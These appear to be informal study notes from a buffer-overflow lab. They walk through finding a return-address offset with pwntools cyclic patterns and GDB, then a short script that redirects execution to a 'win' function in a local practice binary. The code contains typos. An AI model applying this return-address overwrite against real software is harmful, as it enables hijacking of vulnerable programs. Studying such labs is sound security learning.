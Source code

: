 



Because C does not implicitly track buffer sizes, simple overwrites are common.


PIE stands for position independent executable.




pwn tools is gonna be really useful for debugging stuff and writing actually useful stuff. like overwriting a return address



type c to continue in dgb and then 
type r to run a program.


Say you wanna see how many A's to write using pwn tools you can do a cyclic pattern

with this


to get a cyclic pattern of 128 bytes do

pwn.cyclic(128) 

this will give us a input of 128 bytes

Then to see where the stack pointer is we shall type inside of the main function in gdb.

x/s $rsp 
the x stands for examine memory 
the /s tells GDB to interpret it as a string
**`$rsp`** is the register holding the current **stack pointer** in x86_64.

In other words, GDB is trying to interpret the “return address” on the stack as the start of a string. If your binary is compiled with symbols, GDB will resolve that pointer to the symbol name (e.g., `some_function+42`).

and with this pattern any four bytes within this pattern we can query and say where in this cyclic pattern are these four bytes. This will tell us exactly how far into our input our return address gets overwriten

for example to search for gaaa inside of the overwriten pattern and this in my example returns 24. Since this is teh first thing we know 24 bytes into our return address since that is what is at

So now since we know our return address is 24 bytes after our input.  lets right a script

```

import pwn
r = pwn.gdb.debug('./buffer_overflow')

r.send(pwn.cyclic(128))

pwn.cyclic_find("gaaa")

so now lets test the to see if we can target the return address

r.send(b"A"*24+b"B"*8) // the b stands for bytes so python k nows to send byte data. the 24 is because the return address is 24 bytes AFTER the first inputs of the overflow. Then we are overwriting the return address with 8 Bs to make sure it works

after this lets check

x/gx $rsp
```


Ok now lets overwrite it with a function inside the program.

Says there a function name win we can check where in the buffer overflow the win function is with

nm -a buffer_overflow | grep win.

we see it is at 4011af 

so in order in python to do this pwn tools has a nice function to covert this 4011af to convert this byte represential to little Endian.

pwn.p64(0x4011af) Lets make a script to do this

```
i,port pwn

r = pwn.gdb.debug('./buffer_overflow') // r = pwn.process("./buffer_overflow)
ret_addr = pwn.p64(0x4011af)

r.send(b"A"*24+ret_addr)
print(r.readall())
```